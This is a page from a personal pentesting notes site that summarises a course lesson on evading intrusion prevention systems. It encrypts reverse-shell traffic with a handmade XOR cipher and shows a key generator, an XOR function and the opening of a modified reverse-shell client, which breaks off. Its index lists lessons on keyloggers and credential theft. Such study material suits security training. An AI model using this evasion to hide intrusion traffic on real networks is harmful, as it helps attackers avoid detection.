

repository: amandaguglieri/hackinglife · page: python/bypassing-ips-with-handmade-xor-encryption/index.html · generator: mkdocs

---
title: Bypassing IPS with handmade XOR Encryption
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - ips
  - xor encryption
---

# Bypassing IPS with handmade XOR Encryption

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


The idea is to encrypt our traffic to avoid network analyzers or intrusion prevention sensors. SSL or SSH is not recommended here since Next Generation Firewalls have the ability to decrypt them and pass it as plain text to the IPS, where it will be recognized.

- Create a secret key of 1Kb that matches the size of the socket, to make a XOR operation to encrypt the message


```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


# The random and string libraries are used to generate a random string with flexible criteria
import string
import random


# Random Key Generator
key = ''.join(random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits + '^!\$%&/()=?{[]}+~#-_.:,;<>|\\') for _ in range(0, 1024))


print(key)

print ("\n" + "Key length = " + str(len(key)))

message = 'ipconfig'
print("Msg: " + message + '\n')


# here i defined a dedicated function called str_xor, we will pass two values to this fucntion, the first value is the message(s1) that we want to encrypt or decrypt, and the second paramter is the xor key(s2). We were able to bind the encryption and the decryption phases in one function because the xor operation is exactly the same when we encrypt or decrpyt, the only difference is that when we encrypt we pass the message in clear text and when we want to decrypt we pass the encrypted message


def str_xor(s1, s2):
    return "".join([chr(ord(c1) ^ ord(c2)) for (c1, c2) in zip(s1,s2)])


# first we split the message and the xor key to a list of character pair in tuples format >>  for (c1,c2) in zip(s1,s2)

# next we will go through each tuple, and converting them to integer using (ord) function, once they converted into integers we can now perform exclusive OR on them  >>  ord(c1) ^ ord(c2)

# then convert the result back to ASCII using (chr) function  >>  chr(ord(c1) ^ ord(c2))
# last step we will merge the resulting array of characters as a sequqnece string using >>>  "".join function 

enc = str_xor(message, key)

print("Encrypted message is " + "\n" + enc + "\n")

dec = str_xor(enc, key)
print("Decrypted message is " + "\n" + dec + "\n")

```



To integrate XOR encryption into [this client side Python script](coding-a-reverse-shell-that-searches-files.md), you can modify the script to encrypt and decrypt the communication between the client and the server using the XOR encryption algorithm.

Here is an example of how to modify the script to incorporate XOR encryption:

```python
import string
import random
import requests
import os
import subprocess
import time

# Random Key Generator
key = ''.join(random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits + '^!\$%&/()=?{[]}+~#-_.:,;<>|\\') for _ in range(0, 1024))

# Define XOR function
def str_xor(s1, s2):
    return "".join([chr(ord(c1) ^ ord(c2)) for (c1, c2) in zip(s1,s2)])
